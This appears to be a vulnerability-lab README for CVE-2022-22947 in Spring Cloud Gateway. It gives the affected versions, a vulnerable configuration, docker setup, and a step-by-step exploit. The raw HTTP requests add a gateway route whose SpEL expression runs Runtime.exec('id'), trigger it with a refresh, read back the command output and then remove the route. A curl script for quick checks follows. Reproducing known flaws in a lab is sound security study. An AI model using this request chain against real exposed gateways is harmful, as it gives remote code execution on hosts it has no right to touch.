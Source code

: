 # Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

## Affected / Fixed / Preconditions
- **Affected**: 3.1.0, 3.0.0–3.0.6
- **Fixed**: 3.1.1, 3.0.7
- **Preconditions**
  - The project includes `spring-boot-starter-actuator`
  - `management.endpoint.gateway.enabled: true`
  - `management.endpoints.web.exposure.include` includes `gateway` (or `*`)
  - `/actuator/gateway/**` is exposed to the network and accessible without authentication or filtering.
  - (Optional) If the management port is separated, access the actuator via `management.server.port`.

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway versions 3.1.0 and 3.0.0–3.0.6 are vulnerable when the Gateway Actuator endpoint is enabled, exposed, and unsecured. The issue is fixed in 3.1.1 and 3.0.7. A remote attacker can craft a malicious request to achieve arbitrary code execution on the host.

## Minimal configuration (for PoC)
```yaml
server:
  port: 8080

management:
  server:
    port: 8080        # Use a separate port (e.g., 9090) when separating the management port
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

```

## Vulnerability Environment

```bash
mvn -q -DskipTests package
cp target/*.jar target/app.jar
docker compose up -d

Execute the following command to start a server that uses Spring Cloud Gateway 3.1.0:

```
docker compose up -d
```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduction

Firstly, send the following request to add a route which contains an evil SpEL expression:

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![](1.png)

Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](2.png)

Thirdly, send the following request to retrieve the result:

```
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](3.png)

Afterward, send a DELETE request to remove our evil route:

```
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](4.png)

Finally, refresh the gateway again:

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### Quick verification (Windows / Git Bash)

```bash
# Register route and verify header
cat > payload.json <<'EOF'
{
  "id": "hack",
  "order": -1,
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [
    { "name": "SetPath", "args": { "template": "/headers" } },
    { "name": "AddResponseHeader", "args": { "name": "X-Check", "value": "hello" } }
  ],
  "uri": "https://httpbin.org"
}
EOF

curl -s -X POST http://127.0.0.1:8080/actuator/gateway/routes/hack \
  -H "Content-Type: application/json" --data @payload.json
curl -s -X POST http://127.0.0.1:8080/actuator/gateway/refresh
curl -s -D - -o /dev/null http://127.0.0.1:8080/poc   # should show 'X-Check: hello'


```

![Screenshot of successful header injection](images/CVE-2022-22947Poc.png)


### Cleanup (for Quick verification)

```bash
curl -s -X DELETE http://127.0.0.1:8080/actuator/gateway/routes/hack
curl -s -X POST   http://127.0.0.1:8080/actuator/gateway/refresh

```

### References

- [Spring Advisory: CVE-2022-22947](https://spring.io/security/cve-2022-22947)
- [NVD: CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)
- [VMware Tanzu Advisory](https://tanzu.vmware.com/security/cve-2022-22947)
- [Blog: SpEL casting and evil beans](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)